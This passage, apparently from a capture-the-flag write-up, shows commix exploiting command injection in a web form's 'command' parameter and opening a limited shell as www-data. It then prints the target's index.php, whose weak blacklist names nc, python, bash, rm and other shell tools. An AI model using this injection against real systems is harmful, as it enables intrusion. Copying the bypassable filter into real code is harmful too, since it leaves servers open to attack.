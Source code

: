 ```
$ python3 ~/tools/commix/commix.py -r req
                                      __           
   ___   ___     ___ ___     ___ ___ /\_\   __  _   
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v3.8-dev#11
/\ \__//\ \/\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </  
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ https://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection Exploitation Tool
Copyright © 2014-2023 Anastasios Stasinopoulos (@ancst)
+--

(!) Legal disclaimer: Usage of commix for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[17:03:33] [info] Parsing HTTP request using the 'req' file.  
[17:03:33] [info] Testing connection to the target URL. 
[17:03:34] [info] Performing identification checks to the target URL.
[17:03:34] [info] Setting POST parameter 'command' for tests.
[17:03:35] [info] Heuristic (basic) tests shows that POST parameter 'command' might be injectable (possible OS: 'Unix-like').
[17:03:38] [info] Testing the (results-based) classic command injection technique.           
[17:03:38] [info] POST parameter 'command' appears to be injectable via (results-based) classic command injection technique.
           |_ whoami;echo XEBOGF$((56+24))$(echo XEBOGF)XEBOGF
POST parameter 'command' is vulnerable. Do you want to prompt for a pseudo-terminal shell? [Y/n] > Y
Pseudo-Terminal Shell (type '?' for available options)
commix(os_shell) > whoami
www-data
commix(os_shell) > 

```

In this way I got a sort of shell, very limited, but it was useful to get more information on the machine. In particular, I found `index.php` file.

```php
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
					<style>
						body
						{
```